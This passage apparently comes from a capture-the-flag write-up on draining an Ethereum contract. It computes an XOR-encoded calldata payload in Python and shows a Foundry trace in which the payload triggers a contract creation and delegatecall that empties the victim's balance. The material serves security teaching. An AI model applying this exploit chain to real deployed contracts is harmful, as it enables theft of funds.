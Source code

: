 
Now we have the payload we need to make win the challenge! 
However, we have to reminder the xor operation!
So using python one last time we can xor our payload with the key.
```python
>>> hex(0xba84de0f1833c4a029d905195b73c5498c1e3b4dba84de ^ 0x735b73c5498c1e3b4dba84de0f1833c4a029d90519FF00)
'0xc9dfadca51bfda9b646381c7546bf68d2c37e248a37bde'
```

And we got our **final payload**!!! `0xc9dfadca51bfda9b646381c7546bf68d2c37e248a37bde`
Let's execute this one into on ETH mainnet!

### 5. Proof of Concept & Results
```bash
Traces:
  [112757] CounterScript::run()
    ├─ [0] VM::deal(CounterScript: [0x5b73C5498c1E3b4dbA84de0F1833c4a029d90519], 1000000000000000000)
    │   └─ ← ()
    ├─ emit log_string(:  ----------------------- Before Attack ----------------------------------)
    ├─ emit log_named_uint(key: Balance of the contract, val: 1000000000000000000)
    ├─ emit log_named_uint(key: Balance of the victim, val: 100000000000000000)
    ├─ [22173] 0xA0Eb20483Cb60213bF944c2C3833bebc9fbc4706::fallback{value: 100000000000000000}()
    │   └─ ← ()
    ├─ [0] VM::warp(1672353711)
    │   └─ ← ()
    ├─ [43904] 0xA0Eb20483Cb60213bF944c2C3833bebc9fbc4706::c9dfadca(51bfda9b646381c7546bf68d2c37e248a37bde0f1833c4a029d90519)
    │   ├─ [6422] → new <Unknown>@0x37a9B80AcC6A434d4E29D8873BaB9E471cb0d244
    │   │   └─ ← 32 bytes of code
    │   ├─ [5003] 0x37a9B80AcC6A434d4E29D8873BaB9E471cb0d244::fallback() [delegatecall]
    │   │   └─ ← ()
    │   └─ ← ()
    ├─ emit log_string(:  ----------------------- After Attack ----------------------------------)
    ├─ emit log_named_uint(key: Balance of the contract, val: 1100000000000000000)
    ├─ emit log_named_uint(key: Balance of the victim, val: 0)
    └─ ← ()

Script ran successfully.

== Logs ==
   ----------------------- Before Attack ----------------------------------
  Balance of the contract: 1000000000000000000
  Balance of the victim: 100000000000000000
   ----------------------- After Attack ----------------------------------
  Balance of the victim: 0
```

Voila! The victim contract is now holding **0 ETH**! We drained all the eth from the contract :) 


Don’t hesitate to join us on discord, we are building a InfoSec web3 community 🔥 with CTFs.
